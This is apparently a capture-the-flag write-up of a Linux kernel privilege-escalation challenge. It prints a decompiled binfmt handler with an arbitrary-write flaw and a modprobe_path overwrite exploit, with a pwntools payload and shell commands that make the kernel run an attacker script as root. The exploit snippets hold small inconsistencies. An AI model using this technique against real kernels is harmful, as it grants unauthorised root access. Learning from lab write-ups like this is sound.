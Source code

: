 ```
I've created a new binary format. Unlike ELF, it has no bloat. It just consists of a virtual address to store the data at, then 248 bytes of data. However, when I tried to contribute it back to the mainline kernel they all called my submission "idiotic", and "wildly unsafe". They just cant recognize the next generation of Linux binaries.

Login with username bloat and no password

By Tristan (@trab on discord)
nc pwn.utctf.live 5003 
```

[bzImage](/utctf-2022/bins/bzImage)
[rootfs.cpio.gz](/utctf-2022/bins/rootfs.cpio.gz)
[run.sh](/utctf-2022/bins/run.sh)

fuck yeah "wildly unsafe" is my favorite phrase to hear. "A virtual address to store data and then 248 bytes of data" really screams arbitrary write to me. There isn't a lot of complexity to hide vulnerability so I suspected it would be the obvious one -- unchecked virtual address to copy the remainder of the data to. A quick look at run.sh shows that flag.txt is mounted as /dev/sda but that we'll need root to read it. 

Let's pop open the rootfs and see what can be found. 

```bash
mkdir rootfs
cd rootfs
gzip -cd ../rootfs.cpio.gz | cpio -idmv
```

Poking around, there's a pretty good amount of stuff here (a minimal linux installation) but we know more or less that we're looking for a kernel module and so we quickly find `/lib/modules/5.15.0/extra/bloat.ko`. Let's open it up!

```c

int load_bloat_binary(long param_1)

{
  ulong *puVar1;
  undefined *puVar2;
  int iVar3;
  byte *pbVar4;
  undefined *puVar5;
  undefined *puVar6;
  long lVar7;
  undefined8 uVar8;
  byte *pbVar9;
  int iVar10;
  long in_GS_OFFSET;
  bool bVar11;
  bool bVar12;
  byte bVar13;
  
  bVar13 = 0;
  pbVar4 = (byte *)strrchr(*(char **)(param_1 + 0x60),L'.');
  bVar11 = false;
  bVar12 = pbVar4 == (byte *)0x0;
  if (!bVar12) {
    lVar7 = 7;
    pbVar9 = (byte *)".bloat";
    do {
      if (lVar7 == 0) break;
      lVar7 = lVar7 + -1;
      bVar11 = *pbVar4 < *pbVar9;
      bVar12 = *pbVar4 == *pbVar9;
      pbVar4 = pbVar4 + (ulong)bVar13 * -2 + 1;
      pbVar9 = pbVar9 + (ulong)bVar13 * -2 + 1;
    } while (bVar12);
    if ((!bVar11 && !bVar12) == bVar11) {
      lVar7 = generic_file_llseek(*(undefined8 *)(param_1 + 0x40),0,2);
      generic_file_llseek(*(undefined8 *)(param_1 + 0x40),0,0);
      if (lVar7 < 0x101) {
        iVar3 = begin_new_exec(param_1);
        if (iVar3 != 0) {
          return iVar3;
        }
        puVar1 = *(ulong **)(&current_task + in_GS_OFFSET);
        *(undefined4 *)(puVar1 + 0x6f) = 0;
        set_binfmt(bloat_fmt);
        setup_new_exec(param_1);
        puVar2 = *(undefined **)(param_1 + 0xa0);
        uVar8 = 0x7ffffffff000;
        *(undefined **)(puVar1[0x62] + 0xf0) = puVar2;
        *(long *)(puVar1[0x62] + 0xf8) = *(long *)(puVar1[0x62] + 0xf0) + lVar7;
        if (((*puVar1 & 0x20000000) != 0) &&
           (uVar8 = 0xc0000000, (*(byte *)((long)puVar1 + 0x37b) & 8) == 0)) {
          uVar8 = 0xffffe000;
        }
        iVar3 = setup_arg_pages(param_1,uVar8,0);
        if (iVar3 != 0) {
          return iVar3;
        }
        vm_mmap(0,puVar2,0x100,7,0x12,0);
        __put_user_1();
        iVar10 = (int)lVar7;
        iVar3 = 0x100;
        if (iVar10 < 0x101) {
          iVar3 = iVar10;
        }
        if (8 < iVar10) {
          puVar5 = puVar2;
          do {
            puVar6 = puVar5 + 1;
            *puVar5 = puVar5[(param_1 - (long)puVar2) + 0xa8];
            puVar5 = puVar6;
          } while ((8 - (int)puVar2) + (int)puVar6 < iVar3);
        }
        finalize_exec(param_1);
        start_thread(*(long *)(*(long *)(&current_task + in_GS_OFFSET) + 0x20) + 0x3f58,puVar2,
                     *(undefined8 *)
                      (*(long *)(*(long *)(&current_task + in_GS_OFFSET) + 0x310) + 0x120));
        return 0;
      }
    }
  }
  return -8;
}
```

Ahahahahaha it's literally just that. It maps some RWX memory, copies the bytes from the rest of the file, and then executes. Unfortunately userspace code execution just won't do it so we need to do some kernel funny business to become root. All of this behavior happens as a binfmt handler which triggers for any file named ".bloat".  

I spent a good amount of time researching -- I've never actually done kernel exploitation before. I liked this challenge a lot for being rather easy but enough to sorta take the edge off my fear of kernel exploitation. After a while I found [a blog post on modprobe_path exploitation](https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/) which immediately looked quite promising. 

Turns out there is a nice "modprobe_path" symbol in the kernel which points to an executable. This executable gets called whenever you try and execute a binary that has no handler. I assume there is a reason but idk why. Good thing for me since this was super easy. 

This challenge was actually even easier than the challenge that blog post went over!  We have true arbitrary write and no kaslr so all I needed to do was grab the address of modprobe_path from /proc/kallsyms and then write a brief payload to overwrite it with my own script to run as root

```python
from pwn import *

modprobe_path = p64(0xffffffff82038180)
payload = p64(modprobe_path)
payload += b"/tmp/x\x00"

print(payload)
```

```bash
echo -ne "\x80\x81\x03\x82\xff\xff\xff\xff/tmp/x\x00" > .bloat
echo -ne "#!/bin/sh\ncp /dev/sda /tmp/flag\nchmod 777 /tmp/flag" > x
echo -ne "\xff\xff\xff\xff" > dummy
chmod +x ./bloat
./bloat
./dummy

cat flag
utflag{oops_forgot_to_use_put_user283558318}
```